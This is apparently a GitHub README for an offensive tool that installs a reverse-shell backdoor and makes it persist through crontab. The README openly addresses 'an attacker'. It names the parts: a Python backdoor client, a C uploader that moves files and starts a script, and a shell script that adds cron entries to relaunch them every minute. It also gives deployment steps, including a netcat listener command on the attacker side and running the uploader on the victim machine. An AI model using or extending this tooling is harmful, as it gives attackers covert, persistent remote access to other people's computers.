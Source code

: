 
# Overview
This utility allows an attacker to quickly add his backdoor in the Crontab service  
# Usage 
To get a reverse connection, you need to change the IP and Port values to client.py  
You can also change to your backdoor and your execution of it.  
Client.py - Backdoor  
Auto.c -> C program for moving files and start bash script  
Settings.sh -> Add rules in Crontab for autoload our programs in 1 minute  
# Compile and Run   
In Attacker machine:    
--> gcc auto.c -o uploader    
--> nc -nvlp (port)

In User machine:  
--> Transfer client.py,settings.sh, uploader      
--> Run ./uploader    
